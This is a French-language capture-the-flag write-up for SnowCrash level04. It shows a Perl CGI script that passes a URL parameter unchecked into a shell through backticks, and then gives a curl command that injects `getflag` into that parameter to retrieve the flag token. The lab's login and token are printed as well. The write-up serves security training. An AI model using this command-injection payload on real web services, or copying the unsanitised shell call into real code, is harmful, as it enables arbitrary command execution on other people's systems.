

# Level04

Une fois connecté avec le username:motdepasse level04:qi0maab88jeaj46qoumi7maus (obtenu dans le flag précédent), nous arrivons sur le home de l'utilisateur level04.  
Sur le home, nous trouvons le fichier suivant :  
```pl
level04@SnowCrash:~$ ls
level04.pl
level04@SnowCrash:~$ cat level04.pl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

Dans le dossier /var/www il y a un projet nommé level04. 
L'index de ce projet affiche tout simplement le retour de la variable x passé en parametre via `echo`.
Nous allons donc afficher le retour de `getflag` en le donnant en tant que parametre x.
Pour que le site ne nous affiche pas simplement `getflag` mais bien le retour du binaire getflag, nous le donnons en parametre x dans des backquotes pour que `echo` l'exécute et affiche son résultat.

Ici nous avons deux possibilités :   

- via l'url :  
  
- via curl :  
  ```sh
  level04@SnowCrash:~$ curl localhost:4747/?x=\`getflag\`
  Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
  ```
  
